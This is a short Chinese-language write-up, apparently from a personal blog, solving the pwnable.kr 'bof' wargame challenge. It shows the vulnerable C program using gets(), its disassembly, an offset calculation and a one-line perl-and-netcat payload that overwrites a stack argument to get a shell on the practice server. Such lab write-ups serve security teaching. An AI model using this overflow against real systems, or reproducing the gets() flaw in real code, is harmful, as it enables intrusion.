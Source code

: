 ```yaml
---
title: bof
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/11/15/bof
  - /writeup/2014/11/15/bof/
tags:
  - exploit
  - pwnable.kr
---
```


代码如下

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme); 
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else {
        printf("Nah..\n"); 
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
{% endhighlight %}

可以看到很明显的溢出。我们之需要看汇编确定具体距离就行

<pre>
0000062c &lt;func&gt;:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
</pre>

buffer到目的地的距离是`0x2c+0x8=52`。所以

<pre>$ (perl -e 'print "A"x52 . "\xbe\xba\xfe\xca\n"'; cat - ) | nc pwnable.kr 9000</pre>


